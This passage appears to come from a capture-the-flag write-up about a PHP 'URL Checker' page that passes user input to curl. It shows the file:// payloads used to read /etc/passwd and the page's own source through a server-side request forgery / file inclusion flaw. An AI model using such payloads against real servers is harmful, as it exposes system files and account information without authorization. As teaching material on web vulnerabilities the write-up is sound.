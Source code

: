 
We can only test local files. Let's try with the `index.php` file:


![](/img/articles/realgsmoveinsilencelikelasagna/red_7.png)


Hmmm... It includes the webpage, we might think there is a file inclusion somewhere!

### LFI, RCE or SSRF?

Indeed, we can think of a Local File Inclusion, a Remote Command Execution or Server Side Request Forgery... But thanks to the output verbosity, we assume this script is using `curl`:


![](/img/articles/realgsmoveinsilencelikelasagna/red_8.png)


Let's try to change the protocol used, something like `file://` instead of `http://`. If we don't miss the localhost condition, it should work:

> file://localhost/etc/passwd


![](/img/articles/realgsmoveinsilencelikelasagna/red_9.png)


This application allows us to include arbitrary file, great. By the way, there is a user called __odie__ on the system. I will display the content of `test.php`, just to be clear about the vulnerability:

> file://localhost/var/www/html/test.php

```php
<?php 
include_once "config_test.php";
?>

<html>
<head>
	<title>Super curling</title>
</head>
<body>
	<form action="test.php" method="post">
		URL Checker - Beta: 
		<input type="text" name='url' />		
	</form>
<?php
if (isset($_POST['url'])&&!empty($_POST['url']))
{
		$url = $_POST['url'];
			$content_url = getUrlContent($url);
}
else
{
		$content_url = "";
}

if(isset($_GET['debug']))
{
		show_source(__FILE__);
}
?> 
</body>
</html>
```
